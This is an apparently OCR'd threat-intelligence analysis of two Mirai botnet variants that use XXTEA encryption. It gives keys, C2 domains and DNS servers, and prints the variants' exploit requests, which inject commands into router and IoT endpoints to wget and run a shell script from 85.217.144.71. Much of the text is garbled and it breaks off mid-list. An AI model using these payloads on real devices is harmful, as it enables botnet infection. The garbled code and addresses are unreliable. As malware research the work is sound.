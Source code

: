 ```yaml
---
title: 'Analysis of the Mirai Botnet Encrypted with XXTEA'
date: 2024-12-28
permalink: # /posts/2012/08/blog-post-1/
tags:
  - malware
  - mirai
---
```


## I. Background
Recently, 360 Security Brain detected a batch of botnet samples that integrate the XXTEA algorithm for encryption based on the leaked source code of Mirai, targeting IoT/Linux devices of various architectures such as ARM, MIPS, and x86.

## II. Sample Analysis

### 2.1 Mirai.CatDDoS
The first batch of captured samples is a variant of the Mirai botnet operated by the CatDDoS group. Taking the sample adda181984cda825dbfa1cb071a066f5 as an example, its source code basic structure is as follows:
- Source File: 'attack.c'
- Source File: 'attack_tcp.c'
- Source File: 'attack_udp.c'
- Source File: 'checksum.c'
- Source File: 'killer.c'
- Source File:'main.c'
- Source File: 'rand.c'
- Source File:'resolv.c'
- Source File: 'util.c
- Source File: 'watchdog.c'
- Source File: 'xxtea.c'

Compared with the leaked Mirai source code, Mirai.CatDDoS does not contain the scanner.c module used for Telnet brute force cracking, and replaces the table.c module used for XOR decryption of strings with 0xdeadbeef with the xxtea.c implementation. The 16-byte XXTEA algorithm key is:
xxteakey
db 78h x
db 56h db 34h ;4 12h db
db 21h ; db 43h db 65h db 87h db 68h db 98h db OBAh db ODCh db OFEh
V
!Ce
h$W

There are 3 cross-references in total. The first one is to decrypt the string output to the console after the sample runs, and the XXTEA decrypted result is "Hello, world!":
public executionString executionString db 7
db OA0h db OE9h db OEBh db 0A5h db 46h;F
db 0E7h db 0DBh db 0C6h db 3Bh db ODh db 14h db 3
db 0B3h db 0E2h db 14h

The other two are used to decrypt the C2 addresses contained in the sample, which are: retardedclassmate.dyn and servernoworky.geek. These two C2 addresses have appeared in the report [2] describing the recent attack activities of the CatDDoS group.
public domain1 ; unsigned int domain1[8] domain1
dd 0C05899FEh, 593E894h, 8E64836Fh, 0F330706Ch, 1633A28Bh ; DATA XREF: resolve_cnc_addr+41↑o
dd 3 dup(0)
public domain2 ; unsigned int domain2[6] domain2
dd OFAEA39DEh, 77D499ADh, 57FC7CD7h, 21D59725h, 3BA0CABEh ; DATA XREF: resolve_cnc_addr+5Dto
dd OBDD3FEFh

Since the C2 is an OpenNIC domain name and cannot be resolved via public DNS servers, the sample has hard-coded the OpenNIC DNS server used for C2 resolution:
1 unsigned int _fastcall get_dns(_int64 a1)
2345
{ unsigned int result; // eax
6 result =(unsigned int)rand_next(a1) % 11;
switch (result)
7 {
89
case Ou:
result = htonl(0xC30AC3C3); //195.10.195.195
10 11 case 1u: break;
12 result = hton1(0xC2249057); //194.36.144.87
13 break;
14 case 2u:
15 result = htonl(0x33FEA23Bu); //51.254.162.59
16 break;
17 18 case 3u: result =htonl(0x5E1072FEu); //94.16.114.254
19 break;
20 21 case 4u: result = htonl(0x339E6CCBu); //51.158.108.203
22 23 24 case 5u: break; result =htonl(0x334D958Bu); //51.77.149.139
25 26 case 6u: break;
28 27 29 case 7u: result = htonl1(0xB2FE16A6); break; //178.254.22.166
31 30 32 33 case 8u: result = hton1(0x51A988DEu); break; result =htonl(0x86C30402); //81.169.136.222 //134.195.4.2
34 35 36 case 9u: break; result = htonl(0x5BD98925u); //91.217.137.37
37 break;
38 39 case 0xAu: result = hton1(øxB9B53D18); //185.181.61.24
40 41 default: break;
42 43 44 45 return result; } return result;

The C2 port is randomly selected between 25596 and 25616. In terms of the communication mechanism, Mirai.CatDDoS basically follows the original design of Mirai, except that the fixed 4-byte \x00\x00\x00\x01 when Mirai goes online is modified to a fixed 8-byte:
unk_F010 db 31h 1
db 73h ;s
db 13h db 93h db 4
db 83h db 32h ;2
db 4

The captured actual traffic is as follows:
00000000 31 73 13 93 04 83 32 04 1s....2.
0000000800 000000090000
000000000000 0000000B0000
000000020000

In terms of the ATTACK_VECTOR, Mirai.CatDDoS implements a richer variety of DDoS attack types than Mirai. The comparison is as follows:


| Mirai | Mirai.CatDDoS |
|--|--|
| No. | Attack Method | No. | Attack Method |
| 0 | attack_udp_generic | 0 | attack_udp_plain |
| 1 | attack_udp_vse | 1 | attack_tcp_syn |
| 2 | attack_udp_dns | 2 | attack_tcp_stomp |
| 3 | attack_tcp_syn | 3 | attack_tcp_ack |
| 4 | attack_tcp_ack | 4 | attack_tcp_tcp |
| 5 | attack_tcp_stomp | 5 | attack_tcp_bypass |
| 6 | attack_gre_ip | 6 | attack_tcp_socket |
| 7 | attack_gre_eth | 7 | attack_udp_pps |
| 8 | attack_app_proxy | 8 | attack_tcp_ovh |
| 9 | attack_udp_plain | 9 | attack_gre_ip |
| 10 | attack_app_http | 10 | attack_udp_ovhhex |
| | | 11 | attack_udp_openvpn |
| | | 12 | attack_method_udprape |
| | | 13 | attack_udp_r6 |
| | | 14 | attack_tcp_ovhtest |


Based on relevant characteristics, we have associated a batch of similar samples. They are more concise and more similar to the original Mirai in terms of code function and structure design. It is speculated that they may be earlier bot versions. From the naming method of the C2, it conforms to the consistent style of the CatDDoS group - that is, having a special preference for "cats". The similarities and differences between the old and new versions are as follows:
| Old Version | New Version |
|--|--|
| Decryption Algorithm | ^ (XOR) | XXTEA |
| Key | 0xDEADBEEF | 78 56 34 12 21 43 65 87 <br> 68 24 57 13 98 BA DC FE |
| C2 Address | catsarecool.gopher <br> ilikecats.parody <br> ihateyou.indy <br> catsliketo.pirate <br> kittycattos.dyn | retardedclassmate.dyn <br> servernoworky.geek |
| Port | 9932 | Randomly selected between 25596 and 25616 |
| Bot Online | 00 00 00 01 | 31 73 13 93 04 83 32 04 |
| DDoS Instruction | Integrated 15 attack methods including tcp and udp | |

The recent DDoS attack trend of Mirai.CatDDoS is shown below:
1,000 800
Attack Times Victim Count
600
400
200
2024-06-19 2024-06-20 2024-06-21 2024-06-22 2024-06-23 2024-06-24 2024-06-25
Global Attack Data
>1000 500-1000 100-499 10-99 1-9 0
(
 z

### 2.2 Mirai.Octopus
Mirai.Octopus is another variant of the Mirai botnet that uses the XXTEA encryption algorithm. Octopus comes from the special UA feature left by the attacker.
aPostGponformDi db 'POST /GponForm/diag_ Form? images/ HTTP/1.1',0Dh, øAh
db 'Host: 127.0.0.1:8080',0Dh,0Ah
db 'Connection: keep-alive',0Dh, 0Ah
db 'Accept-Encoding: gzip, deflate',ODh,øAh ; DATA XREF: exploit_socket_gpon8080+58↑o
db 'Accept:*/*',0Dh,0Ah
db 'User-Agent: Hacked-by-0ctopus-botnet',ODh, 0Ah
db 'Content-Length:118',0Dh,0Ah
db 0Dh,0Ah
db 'XwebPageName=diag&diag_action=ping&wan_conlist=0&dest_host='';wge'
db 't+http://85.217.144.71/ocwget.sh+-0+->/tmp/ocwget.sh;sh+/tmp/ocwg'
db 'et.sh&ipv=0

Mirai.Octopus follows many designs in the Mirai source code, such as binding to the local port to achieve single instance running, randomizing the process name, preventing the watchdog from restarting the device, and the report server receiving the brute force cracking results. At the same time, it has developed many new malicious functions, including:
- Nday Vulnerability Propagation
- Persistence Mechanism
- Using XOR + XXTEA Encryption Algorithm

#### Nday Vulnerability Propagation
In addition to the original Telnet weak password brute force cracking mechanism in Mirai, Mirai.Octopus has also added a batch of N day vulnerability exploits for propagation, which are:
POST /GponForm/diag Form2images/ HTTP/1.1\r lnHost: 127.0.0.1:8080 /nConnection: keep-livel InAccept-Encoding: gzip, deflate l r inAccept / \ nUser-Agent Hacked-by-Octopus-botnetlr\nContent-Leng..
POST /GponForm/diag_ Form2images/ HTTP/1. 1\rlnHost: 127.00.1:801r InConnecion: keep-livelr inAccept-Encoding: gzip, deflatelrInAccept: /\ lnUser-Agent: Hacked-by-Octopus-botnet lrInContent-Length..
POST /picsdesc xml HTTP/1. 1V/nHost: %6s:52869\ /nContent Length: 630l InAccept-Encoding: gzip, deflatelr nSOAPAction: urn:schemas-upnp-org:service: WANIPConnection:1#AddPortMapping)r nAcept /..
POST /picsdescxml HTTP/1. 11r/nHost: %6s:52869\r /nContent Length: 630\ /nAccept-Encoding: gzip, deflate lr nSOAPAction: urnischemas-upnp-org:service: WANIPConnection:1 #AddPortMapping r nAcept: /.
GET /setup.cgi?next file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/ wget+htp://85.217.144.71/ocwget.sh+-0+/tmp/ocwget.shish+ocwget.sh8&curpath=/8&currentsetting.htm=1 HTTp/1.0rlnn
POST /ctrit/DeviceUpgrade 1 HTTP/1.1Vr InHost: %:37215\r\nContent-Length: 601V InConmection: keep-alivelr /nAuthorization: Digest username=\'dsif-config), realm=\'HuaweiHomeGateway\", nonce=|886.
POST /UD/act?1 HTTP/1.1\r \nHost: 127.0.0.17574\ r InUser- Agent: Hacked-by-Octopus-botnet r InSOAPAction: urn:dsforum-org:service:Time: 1#SetNVTPServers r inContent-Type: text/xml r inContent- Length: d..
POST /UD/act?1 HTTP/1. 1\Vr/nHos: 127.0.0.1:5555/ InUser- Agent: Hacked-by-Octopus-botnetlrInSOAPAction: urn:dsforum-org:service:Time:1#SetNTPServersir nContent-Type: text xml r nContent-Length: %d..
POST /HNAP1/ HTTP/1.0r lnHost: %6s:80 nContent-Type: text xmt: charset=1 ut-81 1r1nSOAPAction: htp:/purenetworks.com/HNAP1/ cd /tmp &&8 m -if && wget http://85.217.144.71/ocwget.sh 8&& sh /tm..
GET /language/Swedish$(IFS)&&&&cd$(IFS)/tmp;rm$(IFS)-rfS(IFS) ;wget$(IFS}http://85.217.144.71/ocwget.sh;sh$(IFS)/tmp/ocwget.sh&t>r&&tar$(IFS)/string,js HTTP/1.0 r n)r/n
GET /shell?cd+/tmprm+-rf+ ;wget+http://85.217.144.71/0cwget.shish+/tmp/ocwget.sh HTTP/1 11r nUser-Agent Hacked-by-Octopus-botnet r inHost %s:80 r/nAccept text/html,.application/xhtml+xm,applicat.
POST /soap.cgi?senice=WANIPConn1 HTTP/1.1V/ nHost %s:491521/1nContent- Length: 630lrInAccept-Encoding: gzip, deflatelrinSOAPAction: urn:schemas-upnp-org:service:WANiPConnection:1#AddPortMap.
GET /cgi-bin/;cd$(IFS)/var/tmp;rm$(IFS)-rfS(IFS) ;$(IFS)wget$(IFS}http://85.217.144.71/ocwget.sh; $(IFS)sh$(IFS)/var/tmp/ocwget.sh

CVE-2018-10561, CVE-2018-1